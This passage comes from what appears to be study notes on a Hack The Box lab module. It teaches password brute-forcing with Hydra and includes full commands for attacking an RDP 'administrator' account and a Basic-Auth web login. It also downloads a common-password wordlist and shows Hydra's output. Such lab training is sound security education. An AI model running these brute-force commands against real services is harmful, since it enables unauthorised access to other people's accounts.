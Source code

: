 Now, imagine you're testing a Remote Desktop Protocol (RDP) service on a server with IP `192.168.1.100`. You suspect the username is "administrator," and that the password consists of 6 to 8 characters, including lowercase letters, uppercase letters, and numbers. To carry out this precise attack, use the following Hydra command:

```shell
gitblanc@htb[/htb]$ hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

This command instructs Hydra to:

- Use the username "administrator".
- Generate and test passwords ranging from 6 to 8 characters, using the specified character set.
- Target the RDP service on `192.168.1.100`.
- Employ the `rdp` module for the attack.

Hydra will generate and test all possible password combinations within the specified parameters, attempting to break into the RDP service.

# Basic HTTP Authentication

Web applications often employ authentication mechanisms to protect sensitive data and functionalities. Basic HTTP Authentication, or simply `Basic Auth`, is a rudimentary yet common method for securing resources on the web. Though easy to implement, its inherent security vulnerabilities make it a frequent target for brute-force attacks.

In essence, Basic Auth is a challenge-response protocol where a web server demands user credentials before granting access to protected resources. The process begins when a user attempts to access a restricted area. The server responds with a `401 Unauthorized` status and a `WWW-Authenticate` header prompting the user's browser to present a login dialog.

Once the user provides their username and password, the browser concatenates them into a single string, separated by a colon. This string is then encoded using Base64 and included in the `Authorization` header of subsequent requests, following the format `Basic <encoded_credentials>`. The server decodes the credentials, verifies them against its database, and grants or denies access accordingly.

For example, the headers for Basic Auth in a HTTP GET request would look like:

```http
GET /protected_resource HTTP/1.1
Host: www.example.com
Authorization: Basic YWxpY2U6c2VjcmV0MTIz
```

## Exploiting Basic Auth with Hydra

We will use the `http-get` hydra service to brute force the basic authentication target.

In this scenario, the spawned target instance employs Basic HTTP Authentication. We already know the username is `basic-auth-user`. Since we know the username, we can simplify the Hydra command and focus solely on brute-forcing the password. Here's the command we'll use:

```shell
# Download wordlist if needed
gitblanc@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
# Hydra command
gitblanc@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81

...
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
```
